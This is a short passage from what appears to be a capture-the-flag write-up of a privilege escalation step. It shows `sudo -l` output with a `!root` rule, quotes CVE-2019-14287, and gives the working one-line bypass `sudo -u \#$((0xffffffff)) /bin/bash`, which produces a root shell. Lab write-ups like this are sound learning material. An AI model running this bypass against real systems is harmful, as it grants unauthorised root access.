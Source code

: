 ames@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash



It looks like our user is not allowed to run `/bin/bash` as `root` since we have a `!root`.

here !root means that the user is allowed to run the command as any user except root



but a google search returns us something we might be able to use to gain root privileges.

![](https://blog.qz.sg/content/images/2021/10/image-33.png)

According to [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)

> __In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.__

Version 1.8.28 eh.

![](https://blog.qz.sg/content/images/2021/10/image-34.png)

Looks vulnerable


We can use below command to escalate privileges

james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# ls




